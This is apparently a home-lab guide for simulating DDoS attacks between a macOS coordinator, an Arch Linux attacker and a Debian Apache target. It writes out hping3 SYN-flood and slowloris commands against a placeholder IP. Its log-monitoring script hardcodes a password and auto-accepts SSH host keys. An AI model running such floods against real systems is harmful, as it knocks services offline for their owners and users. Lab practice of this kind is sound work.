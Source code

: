 ## disclaimer this article inspired and take by

https://medium.com/@sebastienwebdev/ddos-simulation-910bd66c4220

# DDoS Simulation Guide

## Overview

- **ARM macOS**: Used for coordination, monitoring, and logging.
- **Arch Linux**: Used as the attacker machine to simulate DDoS attacks.
- **ARM Debian Server**: Used as the target server to withstand and log DDoS attacks.

## Step-by-Step Instructions

### Step 1: Setup Coordination & Monitoring on ARM macOS

#### Install Necessary Tools

```bash
$ brew install python3
```

#### Create SSH Key for Password-less Authentication

Generate SSH keys on `mymac` and copy them to `archlinux` and `debian server`:

```bash
$ ssh-keygen -t rsa
$ ssh-copy-id tuser@xx.xxx.xx.xx
$ ssh-copy-id tuser@xx.xxx.xx.xx
```

### Step 2: Set Up ARM Debian Server as the Target Server

#### Update and Upgrade

```bash
$ sudo apt update && sudo apt upgrade -y
```

#### Install a Web Server

Install Apache or Nginx to act as the target server:

```bash
$ sudo apt install apache2 -y
```

#### Start the Web Server

```bash
$ sudo systemctl start apache2
$ sudo systemctl enable apache2
```

#### Configure Logging

Ensure Apache logs are enabled for monitoring the DDoS attack:

```bash
$ sudo nano /etc/apache2/apache2.conf
```

Make sure the `LogLevel` is set to `info` or higher:

```plaintext
LogLevel info
```

Restart Apache to apply changes:

```bash
$ sudo systemctl restart apache2
```

### Step 3: Set Up ArchLinux as the Attacker Machine

#### Update and Upgrade

```bash
$ yay -Sy update && yay -Sy upgrade
```

#### Install DDoS Tools

Install common tools used for simulating DDoS attacks, such as `hping3` and `slowloris`:

```bash
$ sudo yay -S hping3 slowloris
```

#### Simulate DDoS Attack with hping3

Run a SYN flood attack:

```bash
$ sudo hping3 -S --flood -V -p 80 xx.xxx.xx.xx
```

#### Simulate DDoS Attack with Slowloris

Run a Slowloris attack:

```bash
$ slowloris xx.xxx.xx.xx
```

### Step 4: Monitoring and Logging on ARM macOS

#### Set Up a Monitoring Script

Create a script to monitor Apache logs for signs of DDoS attacks. Save it as `monitor_logs.py`:

```python
import paramiko

ubuntu_ip = "xx.xxx.xx.xx"
user = "xxxx"
password = "your_password"
log_file = "/var/log/apache2/access.log"

def monitor_logs():
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(ubuntu_ip, username=user, password=password)
    sftp = ssh.open_sftp()
    with sftp.open(log_file, 'r') as f:
        while True:
            line = f.readline()
            if not line:
                break
            print(line.strip())
    sftp.close()
    ssh.close()

if __name__ == "__main__":
    monitor_logs()
```
